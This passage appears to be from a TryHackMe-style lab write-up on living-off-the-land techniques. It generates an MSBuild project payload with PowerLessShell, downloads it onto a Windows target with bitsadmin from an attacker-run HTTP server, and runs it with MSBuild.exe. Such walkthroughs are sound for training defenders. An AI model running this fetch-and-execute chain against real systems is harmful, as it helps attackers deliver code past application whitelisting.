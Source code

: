 ```console
root@ip-10-10-141-93:~/Desktop/PowerLessShell# ls
include  LICENSE.md  PowerLessShell.py  README.md  wmi_msbuild.cna
root@ip-10-10-141-93:~/Desktop/PowerLessShell# python2 PowerLessShell.py -type powershell -source ..//liv0ff.ps1 -output liv0ff.csproj
PowerLessShell Less is More
Mr.Un1k0d3r RingZer0 Team
-----------------------------------------------------------
Generating the msbuild file using include/template-powershell.csproj as the template
File 'liv0ff.csproj' created
Process completed
root@ip-10-10-141-93:~/Desktop/PowerLessShell# ls
include  LICENSE.md  liv0ff.csproj  PowerLessShell.py  README.md  wmi_msbuild.cna
```
{: .nolineno }

We can copy the file generated with one previous seen method on our target windows machine :

```console
bitsadmin.exe /transfer /Download /priority Foreground http://10.10.141.93:8000/liv0ff.csproj c:\Users\thm\Desktop\liv0ff.csproj
```
{: .nolineno }

Afterwards, we can try to build the payload with MSBUILD :

```console
C:\Users\thm\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\thm\Desktop

12/10/2022  10:41 AM    <DIR>          .
12/10/2022  10:41 AM    <DIR>          ..
12/10/2022  10:10 AM             1,621 calc.lnk
12/10/2022  08:34 AM                 0 certutil
12/10/2022  08:14 AM                66 encoded-test.txt
12/10/2022  10:41 AM                52 enc_thm_0YmFiOG_file.txt
12/10/2022  09:28 AM                 0 hello.txt
12/10/2022  10:39 AM            11,257 liv0ff.csproj
12/10/2022  08:32 AM                 0 out.txt
12/10/2022  10:09 AM               182 output.txt
12/10/2022  08:11 AM                 6 payload.txt
04/14/2022  12:40 PM               955 SysinternalsSuite.lnk
12/10/2022  08:09 AM                 6 test.txt
12/10/2022  08:34 AM                 0 typ
12/10/2022  08:34 AM                 0 type
              13 File(s)         14,145 bytes
               2 Dir(s)  13,957,087,232 bytes free

C:\Users\thm\Desktop>c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
Microsoft (R) Build Engine version 4.8.3761.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 12/10/2022 10:42:32 AM.
```
{: .nolineno }
